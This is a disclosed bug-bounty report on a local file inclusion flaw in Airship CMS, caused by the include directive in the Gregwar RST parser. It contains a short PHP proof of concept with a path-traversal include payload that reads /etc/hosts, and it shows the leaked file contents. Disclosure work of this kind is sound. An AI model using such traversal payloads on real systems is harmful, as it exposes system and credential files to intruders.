 # [Airship CMS] Local File Inclusion - RST Parser

## Report Details
- **Report ID**: 179034
- **URL**: https://hackerone.com/reports/179034
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-10-30T23:33:43.551Z
- **Disclosed**: 2016-10-31T13:00:04.983Z

## Reporter
- **Username**: h4ckninja
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: paragonie

## Vulnerability Information
Airship uses the very useful RST Parser from Gregwar. However, the parser has the RST directive `include` built-in (why it isn't a separate directive per the spec, I don't know). However, as a result, LFI is possible in Airship.

I realize this isn't directly Paragonie's code, but since Airship uses this library, I wanted to let you know. I found two instances in the Airship codebase and don't appear to take this side effect in to account:

https://github.com/paragonie/airship/blob/58f96aa0e5002b60e74456502d9bfc9483d77b3d/src/Cabin/Hull/Landing/CustomPages.php#L186

https://github.com/paragonie/airship/blob/58f96aa0e5002b60e74456502d9bfc9483d77b3d/src/lens_functions.php#L714

The parser has this problem here:

https://github.com/Gregwar/RST/blob/master/Parser.php#L762. There doesn't appear to be a way for users of this library to turn it off short of re-implementing their own parser. The spec itself recognizes this security impact: http://docutils.sourceforge.net/docs/ref/rst/directives.html#include.

To demonstrate:

`rst.php`:

~~~
<?php

require('autoload.php');


$parser = new Gregwar\RST\Parser;

// RST document
$document = '*Test*

.. include:: /./../../../../../../../../../../../../../../../../../../etc/hosts

``test``
';

// Parse it
$html = $parser->parse($document);

// Render it
echo $html;
~~~

Output:

~~~
$ php rst.php
<p><em>Test</em></p>
<p>##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1	localhost
255.255.255.255	broadcasthost
::1             localhost </p>

[...]
~~~





## Attachments
No attachments
